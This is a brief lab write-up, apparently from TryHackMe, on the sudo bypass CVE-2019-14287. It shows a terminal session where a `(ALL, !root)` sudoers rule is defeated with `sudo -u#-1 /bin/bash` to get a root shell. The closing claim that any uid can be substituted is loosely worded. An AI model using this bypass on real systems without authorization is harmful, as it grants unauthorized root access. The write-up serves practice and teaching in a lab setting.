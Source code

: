 ### CVE-2019-14287

This is incredibly easy.

If you run `sudo -l` and you get a response like this...

```
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# whoami
root
```

You're looking for the `(ALL, !root) NOPASSWD: /bin/bash` and you can run that command as root with the following.

`sudo -u#-1 /bin/bash`

You can sub out the command (the `/bin/bash`) part with whatever command you are listed as !root for.

Interestingly enough, the `-1` part of the cmd line can be changed to whatever uid in order to take over whatever account you want.  Note that is the number 1 and not a lowercase l.